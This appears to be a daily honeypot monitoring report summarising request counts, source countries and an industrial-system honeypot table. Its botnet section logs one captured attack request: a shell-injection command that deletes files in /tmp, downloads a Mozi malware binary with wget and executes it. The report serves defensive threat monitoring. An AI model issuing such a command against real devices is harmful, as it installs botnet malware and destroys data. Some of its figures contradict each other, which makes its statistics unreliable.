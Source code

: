 ```yaml
---
title: "Report: 2025-06-03 "
date: 2025-06-03
desciption: "Report: 2025-06-03" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-03 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 89 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1520 requests were recorded during the day, originating from 1 different countries, with a peak of 643 requests coming from JP.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                    |
|:---------------|:-----------------------------------------------------------------------------------------------------------|
| 120.86.253.229 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

